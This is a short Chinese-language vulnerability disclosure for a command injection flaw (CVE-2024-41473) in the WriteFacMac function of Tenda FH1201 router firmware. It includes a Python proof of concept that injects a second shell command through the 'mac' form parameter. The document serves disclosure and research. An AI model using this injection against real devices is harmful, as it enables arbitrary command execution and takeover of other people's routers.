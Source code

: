 # Tenda-FH1201存在命令注入漏洞(CVE-2024-41473)

Tenda FH1201 v1.2.0.14 存在命令注入漏洞，位于 WriteFacMac 函数中。mac 参数未经任何过滤就被复制到 var 中，然后执行，因此攻击者可利用此漏洞执行任意命令

固件下载网址：https://www.tendacn.com/download/detail-3322.html

![image-20240730214702940](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407302147986.png)

## poc

```python
import requests

ip = '192.168.74.145'

url = "http://" + ip + "/goform/WriteFacMac"
payload = ";echo 'hacker!'"

data = {"mac": payload}
response = requests.post(url, data=data)
print(response.text)
```

## 漏洞来源

- https://github.com/iotresearch/iot-vuln/tree/main/Tenda/FH1201/WriteFacMac